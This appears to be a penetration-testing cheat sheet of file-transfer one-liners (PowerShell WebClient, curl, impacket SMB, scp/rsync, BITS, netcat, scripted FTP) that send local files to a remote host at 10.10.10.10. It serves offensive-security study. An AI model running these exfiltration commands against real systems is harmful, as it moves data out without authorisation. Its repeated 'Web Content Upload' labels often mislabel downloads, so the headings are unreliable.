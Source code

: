 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://10.10.10.10/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://10.10.10.10/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**
    
    copy demo.txt \\10.10.10.10\share\

**Web Content Upload**
    
    copy \\10.10.10.10\share\demo.txt c:\temp\demo.txt  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

SCP-

**Web Content Upload**
    
    scp /tmp/demo.txt user@10.10.10.10:/tmp/

**Web Content Upload**

    scp demo.txt root@10.10.10.10:/root/

RSYNC-

**Web Content Upload**
    
    rsync -av /tmp/centos/ root@192.168.1.120:/root/*

**Web Content Upload**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**Web Content Upload**

    rsync -av --port 22 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    type demo.txt | nc.exe -v 10.10.10.10 443
------------------------------------------------------------------------------------------------------------------
USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------

 
